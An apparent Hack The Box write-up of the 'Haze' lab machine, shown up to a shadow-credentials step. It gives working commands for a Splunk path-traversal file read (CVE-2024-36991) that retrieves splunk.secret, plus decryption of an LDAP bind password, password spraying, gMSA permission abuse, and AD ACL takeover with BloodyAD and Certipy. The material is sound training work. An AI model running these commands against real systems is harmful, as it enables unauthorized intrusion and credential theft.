This box is rated hard difficulty on HTB. It involves us discovering a path traversal vulnerability in Splunk that lets us grab an encrypted LDAP bind password. Using the aforementioned exploit to read the `splunk.secret` value lets us decrypt the hash and grab domain credentials. Spraying this password against other accounts succeeds to get foothold as a low-priv user on the system, who has the ability to alter gMSA permissions. By giving ourselves the _PrincipalsAllowedToRetrieveManagedPassword_ permission over a group managed service account, we can take it over which allows for an ACL abuse path to a higher-priv user. This user has access to a Splunk backup archive that gives us another LDAP bind password in order to get administrative access on the Splunk site. Finally, we can upload a malicious app to grab a reverse shell and then abuse SeImpersonate to escalate privileges to SYSTEM.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields no results.

```
└─$ sudo nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,8000,8088,8089,9389,47001,49664-49668,62280-62332 -sCV 10.129.232.50 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-18 03:38 -0400
Nmap scan report for 10.129.232.50
Host is up (0.053s latency).
Not shown: 47 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-18 15:38:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-18T15:39:37+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
|_ssl-date: 2026-05-18T15:39:36+00:00; +8h00m02s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-18T15:39:37+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-18T15:39:37+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp  open  http          Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.232.50:8000/en-US/account/login?return_to=%2Fen-US%2F
|_http-server-header: Splunkd
8088/tcp  open  ssl/http      Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
|_http-server-header: Splunkd
|_http-title: 404 Not Found
| http-robots.txt: 1 disallowed entry 
|_/
|_ssl-date: TLS randomness does not represent time
8089/tcp  open  ssl/http      Splunkd httpd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
|_http-server-header: Splunkd
|_ssl-date: TLS randomness does not represent time
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
62280/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
62281/tcp open  msrpc         Microsoft Windows RPC
62286/tcp open  msrpc         Microsoft Windows RPC
62304/tcp open  msrpc         Microsoft Windows RPC
62312/tcp open  msrpc         Microsoft Windows RPC
62332/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-05-18T15:39:28
|_  start_date: N/A
|_clock-skew: mean: 8h00m01s, deviation: 0s, median: 8h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.78 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP is leaking the Fully Qualified Domain Name of `DC01.HAZE.HTB` which I'll add to my `/etc/hosts` file. There are a few higher-port web servers that look to be running Splunk from their banners, so I fire up Ffuf to search for subdomains and subdirectories before starting enumeration on other services.

## Service Enumeration
Checking for Null/Guest authentication over SMB and RPC both fail, it also seems that LDAP does not allow for anonymous binds.

```
└─$ nxc smb DC01.HAZE.HTB -u 'Guest' -p '' --shares

└─$ rpcclient -U ''%'' DC01.HAZE.HTB

└─$ ldapsearch -x -H ldap://DC01.HAZE.HTB -b "dc=HAZE,dc=HTB" -s base "(objectClass=user)"
```



### Splunk Web Server
With those out of the way, our only real way of gathering information initially is through the web servers. Checking out the one on port 8000 shows a Splunk Enterprise login panel. Default credentials don't work to sign in and errors aren't verbose so username enumeration is off the table as well.



Hopping over to port 8088 just shows a blank page and my scans don't find anything.



Incrementing once more to the next web server shows a Splunk Atom Feed for their instance. This discloses the version running and gives us a few links to various functions. Clicking the RPC one results in an invalid request, both the services links require basic auth and prompt a login, and static leads to a 404 error.



## Exploitation

### Path Traversal Vulnerability
Googling for known vulnerabilities in this particular version of Splunk led me to discovering [CVE-2024–36991](https://nvd.nist.gov/vuln/detail/cve-2024-36991), which allows an unauthenticated attacker to traverse directories in order to get file disclosure. This is possible due to improper filtering on the `/modules/messaging/` API endpoint allowing attackers to use `../` or `..\` traversal sequences to escape the intended directory. The issue is tied to Windows path handling and Python’s `os.path.join()` behavior, which can incorrectly normalize paths and let unauthenticated users read arbitrary files on the server.

Whilst doing research on it, I came across [this PoC](https://github.com/jaytiwari05/CVE-2024-36991/blob/main/exploit.py) script made by Jaytiwari that automates the discovery of common Splunk files. I'll use the tool's section 1 option to grab any secrets and credentials from the filesystem.

```
└─$ python3 exploit.py -u http://dc01.haze.htb:8000 -s 1
```



This gives us a ton of output, including four names from the `/etc/passwd` file which can be used to create a username wordlist. Quickly checking to see if any of these are AS-REP Roastable all fail as they couldn't be found in the Kerberos Database.



### Decrypting LDAP Bind Password
Reading through the rest of the output rewards us with an LDAP bind password for Paul Taylor.



A bit of digging on how Splunk performs LDAP binds and their authentication shows that this value is a pass4SymmKey which is protected by a `splunk.secret` value also located on the filesystem. I discover a tool named [splunksecrets](https://github.com/HurricaneLabs/splunksecrets) which tells us that versions of Splunk after 7.2.1 use `AES256-GCM` encryption for their secrets and also takes care of the decryption of these passwords hashes, provided we have the secret.

First, we can grab the value of `splunk.secret` by hitting that file directly via cURL.

```
└─$ curl -s "http://dc01.haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/auth/splunk.secret"
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

Next we pass the two into splunksecret's splunk-decrypt module to recover the plaintext version. Note that after installing the tools via `pipx`, I had to downgrade click to version 8.2 in order to get it working.

```
└─$ pipx install splunksecrets

└─$ pipx inject splunksecrets "click<8.2" --force

└─$ splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY='
[REDACTED]
```



Confirming that these work succeeds to authenticate on the domain, however it doesn't reveal any non-standard SMB shares and fails on every Splunk login panel too.



### Mapping Domain with BloodHound
At a standstill, I decide to fire up BloodHound to map any special permissions we may have, using [BloodHound-Python](https://github.com/dirkjanm/bloodhound.py) to gather information.

```
└─$ bloodhound-python -c all -d haze.htb -u 'paul.taylor' -p '[REDACTED]' -ns 10.129.232.50

└─$ sudo bloodhound
```



### Password Spraying
This only shows that we are apart of a group that only has its SID listed, but no outbound object permissions or membership in anything else interesting. At this point, I decided to password spray against the domain because since the password we recovered was used in an LDAP bind, it may have been used elsewhere or is the default on the domain.

I'll start by creating a list of valid usernames on the domain by brute-forcing RIDs with our credentials and extracting the best candidates.

```
└─$ nxc smb DC01.HAZE.HTB -u 'paul.taylor' -p '[REDACTED]' --rid-brute 5000 > users.txt

└─$ awk -F'\' '{print $2}' users.txt | awk '{print $1}' > usernames.txt

└─$ tail usernames.txt 
paul.taylor
mark.adams
edward.martin
alexander.green
gMSA_Managers
Splunk_Admins
Backup_Reviewers
Splunk_LDAP_Auth
Haze-IT-Backup$
Support_Services
```

With a list of users in hand, we can spray the previously found password to gain access to another user named Mark.Adams.

```
└─$ nxc smb DC01.HAZE.HTB -u usernames.txt -p '[REDACTED]' --continue-on-success
```



## Initial Foothold
This user is also apart of the Remote Management group, meaning we can grab a shell via WinRM.

```
└─$ nxc winrm DC01.HAZE.HTB -u 'mark.adams' -p '[REDACTED]'

└─$ evil-winrm -i DC01.HAZE.HTB -u 'mark.adams' -p '[REDACTED]'
```



Light enumeration on the filesystem shows a Backups directory on the `C:\` drive which we can not access yet.



### gMSA Permission Rights
Listing our group membership and other permissions shows that we are inside of a custom domain group called _gMSA_Managers_. Using Netexec's gmsa module in an attempt to read group managed service account passwords fails, but shows that there is just one present.

```
└─$ nxc ldap DC01.HAZE.HTB -u 'mark.adams' -p '[REDACTED]' --gmsa
```



So interestingly enough, we are in the gMSA managers group but don't have access to read the gMSA passwords directly. This intrigued me so I did some DACL enumeration on what that group could do with the _Haze-IT-Backup$_ account.

```
└─$ nxc ldap DC01.HAZE.HTB -u mark.adams -p '[REDACTED]' -M daclread -o TARGET='HAZE-IT-BACKUP$' ACTION=read PRINCIPAL=gMSA_Managers
```



This reveals that members of the _gMSA_managers_ group have _WriteProperty_ permissions over the `msDS-GroupMSAMembership` attribute for the _Haze-IT-Backup$_ account. This means we can grant ourselves the _PrincipalsAllowedToRetrieveManagedPassword_ permission over this account and read its NTLM hash in order to take it over.

```
PS> Set-ADServiceAccount -Identity Haze-IT-Backup -PrincipalsAllowedToRetrieveManagedPassword mark.adams
PS> Get-ADServiceAccount -Identity Haze-IT-Backup -Properties * | select PrincipalsAllowedToRetrieveManagedPassword

PrincipalsAllowedToRetrieveManagedPassword
------------------------------------------
{CN=Mark Adams,CN=Users,DC=haze,DC=htb}
```

With the necessary permissions setup, we can rerun the Netexec command to read gMSA passwords.

```
└─$ nxc ldap DC01.HAZE.HTB -u 'mark.adams' -p '[REDACTED]' --gmsa
```



## ACL Abuse

### Adding Ourselves to Support Services
A bit more time enumerating the filesystem and domain privileges doesn't give me much, so I recollect data for BloodHound in case we missed anything. After letting it ingest for a little while we can find a new outbound object control for the support services group. 

Following this pattern shows a path to takeover Edward.Martin's account by forcefully changing his password or adding a Shadow Credential through the _AddKeyCredentialLink_ permission. Since he is apart of the Backup Reviewers group, we can infer that he has read permissions to the Backups directory on the `C:\` drive found earlier.



We can start by making ourselves the owner of the Support Services group and then grant GenericAll privileges over it too. After that, we can add ourselves to the Support Services group. I'll use [BloodyAD](https://github.com/CravateRouge/bloodyAD) to perform these but there are plenty of tools thast will accomplish this.

```
└─$ bloodyAD --host DC01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -p ':[REDACTED]' set owner Support_Services 'Haze-IT-Backup$'

└─$ bloodyAD --host DC01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -p ':[REDACTED]' add genericAll Support_Services 'Haze-IT-Backup$'

└─$ bloodyAD --host DC01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -p ':[REDACTED]' add groupMember Support_Services 'Haze-IT-Backup$'
```



### Shadow Credentials
Now we can abuse these to add a Shadow Credential for Edward's account using [Certipy-AD](https://github.com/ly4k/Certipy). This will automatically attempt to get a TGT which will result in an NTLM hash for the user specified.

```
└─$ certipy-ad shadow auto -u 'Haze-IT-Backup$' -hashes ':[REDACTED]' -account edward.martin -target dc01.haze.htb -ns 10.129.232.50
```

